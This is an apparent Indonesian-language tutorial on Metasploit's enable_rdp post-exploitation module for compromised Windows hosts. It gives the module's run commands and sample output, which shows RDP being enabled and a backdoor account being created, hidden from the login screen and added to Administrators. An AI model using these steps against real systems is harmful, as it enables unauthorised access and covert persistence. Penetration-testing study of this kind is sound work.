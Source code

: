 # enable_rdp

Module `enable_rdp` di Metasploit adalah modul `post-exploitation` untuk sistem Windows yang digunakan untuk mengaktifkan fitur Remote Desktop Protocol (RDP) pada komputer target. Modul ini bekerja setelah akses ke sistem berhasil diperoleh (misalnya via meterpreter) dan akan melakukan perubahan pada registry serta konfigurasi sistem untuk mengizinkan koneksi `RDP`, sehingga memungkinkan penyerang untuk mengakses desktop target secara langsung melalui Remote Desktop setelah mendapatkan kredensial yang sesuai.

## Cara Penggunaan di Metasploit

```
use post/windows/manage/enable_rdp
set ENABLE true
set FORWARD false
set LPORT 3389
set PASSWORD <PASSWORD>
set SESSION <ID>
set USERNAME <USERNAME>
set VERBOSE true
run
```

Hasil output-nya seperti ini:

```
[*] Enabling Remote Desktop
[*] 	RDP is already enabled
[*] Setting Terminal Services service startup mode
[*] 	Terminal Services service is already set to auto
[*] 	Opening port in local firewall if necessary
[*] Setting user account for logon
[*] 	Adding User: fixploit03 with Password: fixploit03
[*] 	Adding User: fixploit03 to local group 'Remote Desktop Users'
[*] 	Hiding user from Windows Login screen
[*] 	Adding User: fixploit03 to local group 'Administrators'
[*] You can now login with the created user
[*] For cleanup execute Meterpreter resource file: /root/.msf4/loot/20250516221529_default_192.168.1.52_host.windows.cle_571851.txt
[*] Post module execution completed
```
